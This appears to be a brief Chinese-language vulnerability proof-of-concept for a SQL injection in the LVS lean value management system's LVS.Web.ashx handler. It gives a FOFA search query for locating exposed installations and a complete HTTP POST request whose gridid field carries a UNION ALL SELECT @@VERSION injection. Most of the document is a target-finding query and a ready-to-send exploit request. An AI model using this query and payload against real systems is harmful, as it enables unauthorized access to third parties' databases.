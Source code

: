 ## LVS精益价值管理系统LVS.Web.ashx存在SQL注入漏洞



## fofa

```
body="/ajax/LVS.Core.Common.STSResult,LVS.Core.Common.ashx"
```
![image](https://github.com/user-attachments/assets/9aafbdaa-9d4b-4953-990b-a53f44167eaf)


## poc

```
POST /ajax/LVS.Web.AgencytaskList,LVS.Web.ashx?_method=GetColumnIndex&_session=r HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
 
src=AgencytaskList
gridid=1' UNION ALL SELECT @@VERSION--
```

